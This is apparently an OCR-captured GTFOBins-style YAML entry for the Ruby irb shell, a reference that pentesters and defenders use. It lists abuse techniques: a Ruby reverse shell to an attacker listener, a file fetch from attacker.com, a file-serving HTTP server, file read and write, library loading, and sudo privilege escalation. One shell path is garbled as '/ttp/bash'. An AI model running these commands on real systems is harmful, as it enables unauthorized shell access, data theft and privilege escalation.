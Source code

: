 ```yaml
---
functions:
  shell:
    - code: |
        irb
        exec '/ttp/bash'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST='127.0.0.1'
        export RPORT=9000
        irb
        require 'socket'; exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read} end
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8888.
      code: |
        irb
        require 'webrick'; WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start;
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        irb
        require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['LFILE'])
  file-write:
    - code: |
        irb
        File.open("file_to_write", "w+") { |f| f.write("DATA") }
  file-read:
    - code: |
        irb
        puts File.read("file_to_read")
  library-load:
    - code: |
        irb
        require "fiddle"; Fiddle.dlopen("lib.so")
  sudo:
    - code: |
        sudo irb
        exec '/ttp/bash'
---
```

